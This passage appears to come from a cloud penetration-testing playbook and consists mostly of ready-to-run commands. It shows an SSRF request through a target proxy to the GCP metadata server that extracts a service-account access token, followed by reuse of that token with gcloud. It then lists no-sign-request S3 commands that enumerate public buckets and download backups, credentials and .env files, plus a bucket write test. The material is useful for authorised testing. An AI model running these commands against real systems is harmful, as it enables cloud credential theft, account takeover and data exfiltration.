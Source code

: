 ```bash
# Extract service account token
curl -H "Metadata-Flavor: Google" "http://TARGET/proxy?url=http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/token"

# Get service account email
curl -H "Metadata-Flavor: Google" "http://TARGET/proxy?url=http://169.254.169.254/computeMetadata/v1/instance/service-accounts/default/email"

# Use with gcloud CLI
gcloud auth login --brief --access-token="ya29.c.EL..."
gcloud projects list
gcloud compute instances list
```

---

## PRIORITY 2: PUBLIC S3 BUCKET EXPLOITATION

### Read-Only Access Exploitation

```bash
# Test if bucket is publicly readable
aws s3 ls s3://BUCKET_NAME --no-sign-request

# If successful, enumerate all contents
aws s3 ls s3://BUCKET_NAME --recursive --no-sign-request --human-readable

# Download interesting files
aws s3 cp s3://BUCKET_NAME/database-backup.sql . --no-sign-request
aws s3 cp s3://BUCKET_NAME/credentials.txt . --no-sign-request
aws s3 cp s3://BUCKET_NAME/.env . --no-sign-request

# Sync entire bucket (if small enough)
aws s3 sync s3://BUCKET_NAME ./local_backup --no-sign-request
```

**What to look for in buckets:**
- Database backups (`.sql`, `.bak`, `.dump`)
- Configuration files (`.env`, `.config`, `config.json`)
- Credentials (`credentials.txt`, `.aws/`, `.ssh/`)
- Source code (`.git/`, `*.py`, `*.php`)
- Logs (`*.log` - may contain credentials)
- Backups of any kind

### Write Access Exploitation (rare but critical)

```bash
# Test if publicly writable
echo "test" > test.txt
aws s3 cp test.txt s3://BUCKET_NAME/test.txt --no-sign-request

# If successful:
# 1. Document as critical
# 2. Remove test file immediately
aws s3 rm s3://BUCKET_NAME/test.txt --no-sign-request

# DO NOT upload malicious content - document only!
```

---
